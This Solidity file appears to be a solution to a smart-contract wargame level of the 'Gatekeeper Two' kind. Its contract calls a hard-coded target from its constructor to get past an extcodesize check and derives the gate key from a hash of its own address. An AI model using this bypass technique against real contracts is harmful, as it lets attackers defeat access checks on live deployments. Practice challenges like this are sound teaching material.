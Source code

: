 // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface G2 {
    function enter(bytes8 _gateKey) external returns (bool);
}
contract ExploitG2 {

    
    
    constructor() {
        //extcode size equals 0 when the contract is initializing. So it will be 0 if we call the target contract
        //from within the constructor
        
        address target = 0x5ECCAd8370901630d10c45a2893c1C797ffcd617;
        bytes8 key = ~bytes8(keccak256(abi.encodePacked(address(this))));
        target.call(abi.encodeWithSignature("enter(bytes8)", key));
    }
}